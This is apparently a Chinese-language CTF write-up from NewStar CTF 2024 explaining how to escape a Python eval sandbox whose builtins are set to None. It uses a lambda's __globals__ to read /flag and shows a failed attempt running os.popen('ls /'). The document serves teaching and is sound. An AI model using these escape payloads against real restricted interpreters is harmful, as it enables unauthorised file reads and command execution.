 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 臭皮踩踩背

部分源码给出

```python
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

结合参考文档，再了解的`eval()`的原理就会明白，设置了`globals`参数导致内置函数为`None`后，需要逃离这个上下文。

刚好给了一个匿名函数，看似无用，实际上参考文档已经给出提示：python“一切皆对象”

故可以利用函数对象的`__globals__`来逃逸

注意：如果执行`f.__globals__['__builtins__'].eval()`是不行的，完整源码：

```python
print('你被豌豆关在一个监狱里，，，，，，') 
print('豌豆百密一疏，不小心遗漏了一些东西，，，')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮，，')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval  

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

可以看python解释器的eval()的实现代码

![eval()的实现代码](/assets/images/wp/2024/week3/caicaibei_1.png)

会发现会检查 `globals` 中是否已经包含了 `builtins`。如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为官方文档：

![官方文档](/assets/images/wp/2024/week3/caicaibei_2.png)

所以若是直接

```plaintext
>>> inp = '''f.__globals__['__builtins__'].eval('__import__("os").popen("ls /").read()')'''
>>> eval(inp, {"__builtins__": None, "f": f})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

原因就是：在这个已经禁用内置函数的上下文中，嵌套使用的 `eval()` 在底层实现中会尝试将 `builtins` 插入 `globals`，但已经显式地设置了 `builtins = None`，这使得 `eval()` 无法正确工作，最终导致错误。

但是 `open()` 函数能行的原因就是：这只是是普通的函数调用，不涉及也不依赖于 `eval()` 的执行上下文。只要你能从全局作用域中找到 `open()`，它就可以正常工作，不会被 `builtins = None` 所影响。

所以payload为：

```python
f.__globals__['__builtins__'].open('/flag').read()
```

![flag](/assets/images/wp/2024/week3/caicaibei_3.png)
